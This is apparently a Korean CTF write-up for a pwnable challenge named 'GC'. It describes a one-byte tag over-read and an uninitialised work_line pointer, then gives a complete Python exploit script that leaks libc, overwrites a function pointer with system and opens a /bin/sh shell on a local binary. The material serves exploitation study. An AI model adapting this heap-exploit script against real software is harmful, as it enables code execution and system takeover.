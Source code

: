 GC 687 (Solver : 6)
=============

### 1. Introduction

| RELRO    | STACK CANARY    | NX         | PIE         | RPATH    | RUNPATH    | FILE |
|----------|-----------------|------------|-------------|----------|------------|------|
| No RELRO | No canary found | NX enabled | PIE enabled | No RPATH | No RUNPATH | gc   | 

이런 포너블을 많이 풀어야 실력이 늘듯하다.

### 2. Vulnerability
- Box에 달린 tag를 출력할 때 설정한 크기보다 1바이트 더 출력한다.

```c
  else
    v1 = *((i & 0xFFFFFFFFFFFFFFFCLL) + 16);
  v1(v2, box->tag_string, box->tag_len, 0LL);
  if ( *(i & 0xFFFFFFFFFFFFFFFCLL) == i )
  {
    work_line = 0LL;
  }
  else
  {                                             // Workline is not initialize.
    *(*((i & 0xFFFFFFFFFFFFFFFCLL) + 8) & 0xFFFFFFFFFFFFFFFCLL) = *(i & 0xFFFFFFFFFFFFFFFCLL);// *(*(i + 8)) = *(i)
    *((*(i & 0xFFFFFFFFFFFFFFFCLL) & 0xFFFFFFFFFFFFFFFCLL) + 8) = *((i & 0xFFFFFFFFFFFFFFFCLL) + 8);//  *(*(i) + 8) = *(i + 8)
  }
  if ( storage_list )
  {
```
- store하려는 i(box)에 있는 주소가 i와 같지 않다면 else문으로 가서 work_line을 초기화하지 않는다.

### Exploit
copy gc를 이용하여 memory leak을 할 수 있는데, 그 이유는 gc를 하는 과정에서 메모리를 초기화하지 않기 때문이다. 그래서 바로 leak을 할 수 있고, exploit의 경우
work_line을 초기화하지 않는것을 이용하여 work_line과 storage를 같은 메모리를 가르키게 만들고 storage가 구조체에서 함수를 호출하는것을 이용하여 exploit하면 된다.

```python
from ntpwn import *

s = process('./gc')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# local
b = BP(s)
b.bp('tracemalloc on')
#b.bpie64(0x12f0) # egg alloc
#b.bpie64(0x15a0) # box_alloc
#b.bpie64(0x1469) # box_alloc -> egg
#b.bpie64(0x21a0) # gc-fun1
#b.bpie64(0x1dc0) # gc
#b.bpie64(0x1001) # print_storage
#b.bp('b *system')
b.bp('c')
b.done()

def getegg():
	s.sendlineafter('Command:\n','1')

def box(size):
	s.sendlineafter('Command:\n','2')
	s.sendlineafter(':\n',size)

def storebox():
	s.sendlineafter('Command:\n','3')

def storetag(length,string):
	s.sendlineafter('Command:\n','3')
	s.sendlineafter('length:\n',length)
	s.sendlineafter('string:\n',string)

def getbox(idx):
	s.sendlineafter('Command:\n','4')
	s.sendlineafter(':\n',idx)

def deliver(idx):
	s.sendlineafter('Command:\n','5')
	s.sendlineafter(':\n',idx)

def viewlist():
	s.sendlineafter('Command:\n','6')

def settag(length,string):
	s.sendlineafter('Command:\n','6')
	s.sendlineafter('length:\n',length)
	s.sendlineafter('string:\n',string)

libc = ''
for i in range(6):
	for j in range(3):
		getegg()

	box('3')
	storetag(str(0x300),'A')
	deliver('0')

	box('0')
	storetag(str(0x100000 - 0x40),'A')
	deliver('0')

	box('0')
	storetag(str(8),'A' * i)
	deliver('0')
	s.recvuntil('$>' + 'A' * i)
	libc += s.recv(1)

mmap = u64(libc + "\x00" * 2)
libc_base = mmap - 14106675
system = libc_base + l.symbols['system']
log.info("MMAP LEAK : " + hex(mmap))
log.info("LIBC_BASE LEAK : " + hex(libc_base))

# padding
payload = p64(0) * 15 + p64(system) + p64((1 << 64) - 0x20)
box('0')
storetag(str(0x100000 - 0x40),'A')
deliver('0')
box('0')
storetag(str(0x100000 - 0x40),payload)
deliver('0')

# overwrite
box(str(131072-10))
getegg()
box(str(0))
storetag(str(0x18),'/bin/sh\x00'.ljust(0x18,'A'))
deliver('0')
storetag('1','A')

getegg()
viewlist()
s.recvuntil('65):')


s.interactive()
```



